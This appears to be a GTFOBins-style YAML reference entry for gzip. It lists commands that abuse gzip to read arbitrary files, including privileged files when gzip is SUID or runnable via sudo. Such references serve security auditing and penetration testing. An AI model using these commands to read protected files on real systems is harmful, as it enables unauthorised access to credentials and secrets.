 ```yaml
---
description: There are also a number of other utilities that rely on `gzip` under the hood, e.g., `zless`, `zcat`, `gunzip`, etc. Besides having similar features, they also allow privileged reads if `gzip` itself is SUID.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gzip -f $LFILE -t
  suid:
    - code: |
        LFILE=file_to_read
        ./gzip -f $LFILE -t
  sudo:
    - code: |
        LFILE=file_to_read
        sudo gzip -f $LFILE -t
---
```


